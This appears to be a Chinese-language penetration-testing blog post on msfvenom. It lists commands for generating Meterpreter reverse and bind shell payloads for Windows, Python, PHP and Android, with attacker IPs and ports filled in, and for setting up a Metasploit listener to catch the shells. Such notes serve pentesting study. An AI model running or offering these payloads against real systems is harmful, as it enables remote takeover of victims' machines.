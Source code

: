 ```yaml
---
layout: post
title:  "内网渗透之msfvenom"
categories: 内网渗透
tags: 工具 msfvenom
author: 0e0w
---
```


* content
{:toc}
这是一篇关于msfvenom文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文创建时间为2020年6月4日，最近一次更新时间为2020年8月21日。本文会不定期更新。
> 关于什么是msfvenom？更多详细内容见 [msfvenom官网](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)和[如何使用](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)。

## 0x01 msfvenom概述

### 基础介绍

msfvenom一般需要配合msf进行利用。使用msfvenom生成shellcode，使用msf进行监听，在靶机上运行shellcode。msfvenom几乎支持生成各种平台的shellcode。是后渗透测试过程中强大的武器之一。

### 安装方式

msfvenom是msfpayload和msfencode的组合，安装msf之后便可使用。

一键安装msf

>curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \chmod 755 msfinstall && \./msfinstall

更新msf
>
sudo msfupdate
>

## 0x02 msfvenom命令

- msfvenom -h #查看帮助
- msfvenom -l payloads #查看支持生成的payload
- msfvenom -l archs #查看支持的系统架构
- msfvenom -l platforms #查看支持的平台
- msfvenom -l encrypt #查看所有的加密方式
- msfvenom -l encoders #查看所有的编码器

例：

> msfvenom -a 系统架构 --platform 系统平台 -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -e 编码方式  -i编码次数 -f 输出格式 -o 输出文件

> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=111.231.228.112 lport=6059 -i 3 -e x86/shikata_ga_nai -f exe -o x86reverse_tcp.exe
>

## 0x03 msfvenom利用

**MSF监听器**

- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp #设置成payload的模式
- set rhost 111.111.111.112
- set lport 6095
- exploit -j

**sessions操作**

- sessions -i 2
- shell

### Windows exe

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x86reverse_tcp.exe
- msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x64reverse_tcp.exe

靶机有公网ip

- msfvenom -p windows/x64/meterpreter/bind_tcp lport=6095 -f exe -o bind_tcp.exe

### Linux elf

- 

### Python

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f py -o x86reverse_tcp.py

靶机有公网ip

- msfvenom ­-p windows/x64/meterpreter/bind_tcp lport=6095 ­-f py -o exp.py

### PHP

- msfvenom -p php/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=6095 -f raw -o session.php

### Android

- msfvenom -p android/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=80 -o msf.apk 

### apple_ios

- 

## 0x04 参考链接

- https://blog.csdn.net/caiqiiqi/article/details/84102629


